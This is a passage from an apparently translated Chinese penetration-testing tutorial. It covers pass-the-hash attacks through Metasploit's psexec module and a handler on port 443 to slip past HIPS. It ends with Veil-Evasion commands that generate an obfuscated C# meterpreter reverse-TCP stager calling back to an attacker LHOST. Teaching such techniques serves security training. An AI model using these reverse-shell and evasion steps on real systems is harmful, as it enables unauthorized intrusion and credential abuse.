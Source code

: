 ![测试账户凭据同步](img/B04315_05_22.jpg)

### 注意

在运行这些命令之前，请确保使用 spool 将结果输出到日志文件中，以便您可以返回并查看结果。

正如您在下图中所看到的，该账户提供了有关谁登录到系统的详细信息。这意味着返回的账户名称中有相关的已登录用户，并且本地管理员账户将在该系统上起作用。这意味着这个系统很容易受到“传递哈希攻击”（PtH）的威胁。

![测试账户凭据同步](img/B04315_05_23.jpg)

### 注意

`psexec`模块允许您传递提取的本地区域网络管理器（LM）：新技术 LM（NTLM）哈希和用户名组合，或者只是用户名密码对来获取访问权限。

首先，我们设置一个自定义的 multi/handler 来捕获 Veil 生成的自定义利用程序，如下例所示。请记住，我使用`443`作为本地端口，因为它可以绕过大多数 HIPS，而本地主机将根据您的主机而变化。

![测试账户凭据同步](img/B04315_05_24.jpg)

现在，我们需要使用 Veil 生成自定义有效载荷，以便与`psexec`模块一起使用。您可以通过导航到`Veil-Evasion`安装目录并使用`python Veil-Evasion.py`来执行此操作。Veil 有许多有效载荷，可以使用各种混淆或保护机制生成，要查看要使用的特定有效载荷，执行`list`命令。您可以通过输入有效载荷的编号或名称来选择有效载荷。例如，运行以下命令生成一个不使用 shell 代码的 C#分段器，但请记住，这需要目标计算机上特定版本的.NET 才能工作。

```py
use cs/meterpreter/rev_tcp
set LPORT 443
set LHOST 192.168.195.160
set use_arya Y
generate

```
